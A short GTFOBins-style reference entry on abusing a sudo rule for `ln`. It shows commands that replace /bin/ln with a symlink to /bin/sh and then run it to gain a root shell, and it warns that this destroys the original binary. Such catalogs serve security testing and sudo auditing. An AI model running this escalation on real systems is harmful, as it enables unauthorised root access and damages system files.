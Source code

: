 # GTFOBin: ln

This overrides `ln` itself with a symlink to a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `ln` by path. Warning, this is a destructive action.

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ln -fs /bin/sh /bin/ln
sudo ln
```